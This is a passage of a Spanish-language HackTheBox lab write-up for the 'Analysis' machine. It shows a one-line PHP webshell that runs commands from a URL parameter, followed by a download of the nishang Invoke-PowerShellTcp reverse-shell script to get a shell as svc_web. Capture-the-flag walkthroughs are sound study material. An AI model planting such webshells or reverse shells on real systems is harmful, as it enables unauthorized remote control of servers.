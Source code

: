 - Si conoces el nombre del recurso en este caso el que subiste vemos que podemos ver.

<p align="center">
<img src="/assets/hackthebox/img/machines/hard/analysis/19.png">
</p>

- Vamos a subir una `webshell` para ganar acceso.

```bash
➜  content cat cmd.php
<?php
	echo "<pre>" . shell_exec($_GET['cmd']) .  "</pre>";
?>
```

- Podemos ejecutar comandos.

<p align="center">
<img src="/assets/hackthebox/img/machines/hard/analysis/20.png">
</p>

## Shell as svc_web

- Ahora vamos a ganar acceso <https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1>.

```bash
➜  content wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
--2024-06-07 14:30:36--  https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4339 (4.2K) [text/plain]
Saving to: ‘Invoke-PowerShellTcp.ps1’

```